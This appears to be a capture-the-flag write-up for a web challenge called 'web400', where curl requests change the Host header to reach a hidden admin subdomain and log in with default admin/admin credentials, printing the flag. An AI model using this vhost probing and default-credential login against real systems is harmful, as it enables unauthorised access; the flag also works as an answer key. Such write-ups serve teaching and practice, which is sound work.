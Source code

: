 # web400

## Description
MCA Web admins are some of the best in the biz..

http://44.197.231.105:3024

## Solve
If we try to visit the page we get this message:
```
It appears you're trying to access 44.197.231.105:3024. This host does not appear to have any content.

Copyright mcawebhosting.com, 2022
```

I'm assuming the web server is looking at the `Host` header for this info. Since we see the site name is `mcawebhosting.com` let's change our `Host` header to that:
```bash
curl 'http://44.197.231.105:3024/' -H 'Host: mcawebhosting.com'
```
Now we have a different message:
```
Welcome to MCA web hosting! This is our customer facing page. Please use us for all your web hosting needs!
```
The challenge description hints us to an admin page. I will change the header to have the `admin` subdomain:
```bash
curl 'http://44.197.231.105:3024/' -H 'Host: admin.mcawebhosting.com'
```
Now we have a login page! By sending a POST request with `username` and `password` in the POST data lets try logging in...
```bash
curl -X POST 'http://44.197.231.105:3024/' -H 'Host: admin.mcawebhosting.com' -d 'username=admin&password=admin'
```
```html
<!DOCTYPE HTML>
<html lang="en">
  <head>
    <title>mcawebhosting.com</title>
  </head>
  <body>
    <h2></h2>
<p>Welcome to the admin panel! Here you can do admin stuff.</p><p>TODO: change default password.</p><p>MCA{2e4578cc9deb5913857f3411c416bcb56f8fde30}</p>    <p>Copyright mcawebhosting.com, 2022</p>
  </body>
</html>
```

## Flag
```
MCA{2e4578cc9deb5913857f3411c416bcb56f8fde30}
```